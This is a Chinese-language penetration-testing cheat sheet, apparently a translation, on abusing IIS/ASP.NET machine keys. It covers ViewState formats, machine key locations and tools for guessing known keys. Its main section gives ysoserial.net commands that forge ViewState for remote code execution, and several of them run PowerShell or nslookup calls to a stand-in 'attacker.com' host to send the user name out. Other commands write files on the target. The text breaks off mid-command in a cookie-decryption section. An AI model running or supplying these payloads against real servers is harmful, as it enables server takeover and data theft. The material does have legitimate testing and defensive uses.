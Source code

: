 # IIS 机器密钥

> 该机器密钥用于加密和解密表单身份验证 Cookie 数据和视图状态数据，并用于验证跨进程会话状态标识。

## 概要

* [视图状态格式](#viewstate-format)
* [机器密钥格式和位置](#machine-key-format-and-locations)
* [识别已知机器密钥](#identify-known-machine-key)
* [解码视图状态](#decode-viewstate)
* [生成用于 RCE 的视图状态](#generate-viewstate-for-rce)
    * [MAC 未启用](#mac-is-not-enabled)
    * [MAC 已启用且加密已禁用](#mac-is-enabled-and-encryption-is-disabled)
    * [MAC 已启用且加密已启用](#mac-is-enabled-and-encryption-is-enabled)
* [使用机器密钥编辑 Cookie](#edit-cookies-with-the-machine-key)
* [参考文献](#references)

## 视图状态格式

IIS 中的 ViewState 是一种技术，用于在 ASP.NET 应用程序中保留 Web 控件在回发之间的状态。它将数据存储在页面上的隐藏字段中，使页面能够维护用户输入和其他状态信息。

| 格式 | 属性 |
| --- | --- |
| Base64 | `EnableViewStateMac=False`,  `ViewStateEncryptionMode=False` |
| Base64 + MAC | `EnableViewStateMac=True` |
| Base64 + 加密 | `ViewStateEncryptionMode=True` |

默认情况下，直到 2014 年 9 月，`enableViewStateMac` 属性设置为 `False`。
通常未加密的 ViewState 以字符串 `/wEP` 开头。

## 机器密钥格式和位置

IIS 中的 machineKey 是 ASP.NET 中的一个配置元素，指定用于加密和验证数据（如视图状态和表单身份验证令牌）的加密密钥和算法。它确保了在 Web 应用程序之间的一致性和安全性，特别是在 Web 农场环境中。

machineKey 的格式如下。

```xml
<machineKey validationKey="[String]"  decryptionKey="[String]" validation="[SHA1 (default) | MD5 | 3DES | AES | HMACSHA256 | HMACSHA384 | HMACSHA512 | alg:algorithm_name]"  decryption="[Auto (default) | DES | 3DES | AES | alg:algorithm_name]" />
```

`validationKey` 属性指定一个十六进制字符串，用于验证数据，确保其未被篡改。

`decryptionKey` 属性提供一个十六进制字符串，用于加密和解密敏感数据。

`validation` 属性定义用于数据验证的算法，选项包括 SHA1、MD5、3DES、AES 和 HMACSHA256 等。

`decryption` 属性指定加密算法，选项包括 Auto、DES、3DES 和 AES，或者可以使用 alg:algorithm_name 指定自定义算法。

以下 machineKey 示例来自 [Microsoft 文档](https://docs.microsoft.com/en-us/iis/troubleshoot/security-issues/troubleshooting-forms-authentication)。

```xml
<machineKey validationKey="87AC8F432C8DB844A4EFD024301AC1AB5808BEE9D1870689B63794D33EE3B55CDB315BB480721A107187561F388C6BEF5B623BF31E2E725FC3F3F71A32BA5DFC" decryptionKey="E001A307CCC8B1ADEA2C55B1246CDCFE8579576997FF92E7" validation="SHA1" />
```

**web.config** / **machine.config** 的常见位置

* 32 位
    * `C:\Windows\Microsoft.NET\Framework\v2.0.50727\config\machine.config`
    * `C:\Windows\Microsoft.NET\Framework\v4.0.30319\config\machine.config`
* 64 位
    * `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\config\machine.config`
    * `C:\Windows\Microsoft.NET\Framework64\v2.0.50727\config\machine.config`
* 当启用 **AutoGenerate** 时位于注册表中（使用 [irsdl/machineKeyFinder.aspx](https://gist.github.com/irsdl/36e78f62b98f879ba36f72ce4fda73ab) 提取）
    * `HKEY_CURRENT_USER\Software\Microsoft\ASP.NET\4.0.30319.0\AutoGenKeyV4`  
    * `HKEY_CURRENT_USER\Software\Microsoft\ASP.NET\2.0.50727.0\AutoGenKey`

## 识别已知机器密钥

尝试从已知产品、Microsoft 文档或其他互联网部分获取多个机器密钥。

* [isclayton/viewstalker](https://github.com/isclayton/viewstalker)

    ```powershell
    ./viewstalker --viewstate /wEPD...TYQ== -m 3E92B2D6 -M ./MachineKeys2.txt
    ____   ____.__                       __         .__   __
    \   \ /   /|__| ______  _  _________/  |______  |  | |  | __ ___________ 
    \   Y   / |  |/ __ \ \/ \/ /  ___/\   __\__  \ |  | |  |/ // __ \_  __ \
    \     /  |  \  ___/\     /\___ \  |  |  / __ \|  |_|    <\  ___/|  | \/
    \___/   |__|\___  >\/\_//____  > |__| (____  /____/__|_ \\___  >__|   
                    \/           \/            \/          \/    \/       

    KEY FOUND!!!
    Host:   
    Validation Key: XXXXX,XXXXX
    ```

* [blacklanternsecurity/badsecrets](https://github.com/blacklanternsecurity/badsecrets)

    ```ps1
    python examples/blacklist3r.py --viewstate /wEPDwUK...j81TYQ== --generator 3E92B2D6
    Matching MachineKeys found!
    validationKey: C50B3C89CB21F4F1422FF158A5B42D0E8DB8CB5CDA1742572A487D9401E3400267682B202B746511891C1BAF47F8D25C07F6C39A104696DB51F17C529AD3CABE validationAlgo: SHA1
    ```

* [NotSoSecure/Blacklist3r](https://github.com/NotSoSecure/Blacklist3r)

    ```powershell
    AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --purpose=viewstate  --valalgo=sha1 --decalgo=aes --modifier=CA0B0334 --macdecode --legacy
    ```

* [0xacb/viewgen](https://github.com/0xacb/viewgen)

    ```powershell
    $ viewgen --guess "/wEPDwUKMTYyOD...WRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
    [+] ViewState 未加密
    [+] 签名算法：SHA1
    ```

一些有趣的机器密钥列表：

* [NotSoSecure/Blacklist3r/MachineKeys.txt](https://github.com/NotSoSecure/Blacklist3r/raw/f10304bc90efaca56676362a981d93cc312d9087/MachineKey/AspDotNetWrapper/AspDotNetWrapper/Resource/MachineKeys.txt)
* [isclayton/viewstalker/MachineKeys2.txt](https://raw.githubusercontent.com/isclayton/viewstalker/main/MachineKeys2.txt)
* [blacklanternsecurity/badsecrets/aspnet_machinekeys.txt](https://raw.githubusercontent.com/blacklanternsecurity/badsecrets/dev/badsecrets/resources/aspnet_machinekeys.txt)

## 解码视图状态

* [BApp Store > ViewState 编辑器](https://portswigger.net/bappstore/ba17d9fb487448b48368c22cb70048dc) - ViewState 编辑器是一个扩展，允许您查看和编辑 V1.1 和 V2.0 ASP 视图状态数据的结构和内容。
* [0xacb/viewgen](https://github.com/0xacb/viewgen)

    ```powershell
    viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
    ```

## 生成用于 RCE 的视图状态

首先需要解码 Viewstate 以了解是否启用了 MAC 和加密。

**需求**:

* `__VIEWSTATE`
* `__VIEWSTATEGENERATOR`

### MAC 未启用

```ps1
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/:UserName"
```

### MAC 已启用且加密已禁用

* 使用 `badsecrets`、`viewstalker`、`AspDotNetWrapper.exe` 或 `viewgen` 找到机器密钥（验证密钥）

    ```ps1
    AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --purpose=viewstate  --valalgo=sha1 --decalgo=aes --modifier=CA0B0334 --macdecode --legacy
    # --modifier = `__VIEWSTATEGENERATOR` 参数值
    # --encrypteddata = 目标应用程序的 `__VIEWSTATE` 参数值
    ```

* 然后使用 [pwntester/ysoserial.net](https://github.com/pwntester/ysoserial.net) 生成一个 ViewState，可以使用 `TextFormattingRunProperties` 和 `TypeConfuseDelegate` 小工具。

    ```ps1
    .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/:UserName" --generator=CA0B0334 --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"
    .\ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "powershell.exe -c nslookup http://attacker.com" --generator=3E92B2D6 --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"

    # --generator = `__VIEWSTATEGENERATOR` 参数值
    # --validationkey = 上述命令中的验证密钥
    ```

### MAC 已启用且加密已启用

默认验证算法是 `HMACSHA256`，默认解密算法是 `AES`。

如果缺少 `__VIEWSTATEGENERATOR` 但应用程序使用的是 .NET Framework 版本 4.0 或更低版本，您可以使用应用的根目录（例如：`--apppath="/testaspx/"`）。

* **.NET Framework < 4.5**，ASP.NET 总是接受未加密的 `__VIEWSTATE`，前提是您从请求中删除 `__VIEWSTATEENCRYPTED` 参数。

    ```ps1
    .\ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "echo 123 > c:\windows\temp\test.txt" --apppath="/testaspx/" --islegacy --validationalg="SHA1" --validationkey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0" --isdebug
    ```

* **.NET Framework > 4.5**，machineKey 具有属性：`compatibilityMode="Framework45"`

    ```ps1
    .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "echo 123 > c:\windows\temp\test.txt" --path="/somepath/testaspx/test.aspx" --apppath="/testaspx/" --decryptionalg="AES" --decryptionkey="34C69D15ADD80DA4788E6E3D02694230CF8E9ADFDA2708EF43CAEF4C5BC73887" --validationalg="HMACSHA256" --validationkey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0"
    ```

## 使用机器密钥编辑 Cookie

如果您拥有 `machineKey` 但视图状态已禁用。

ASP.net 表单身份验证 Cookie：[liquidsec/aspnetCryptTools](https://github.com/liquidsec/aspnetCryptTools)

```powershell
# 解密 Cookie
$ AspDotNetWrapper.exe --keypath C:\MachineKey.txt --cookie XXXXXXX_XXXXX-XXXXX --decrypt --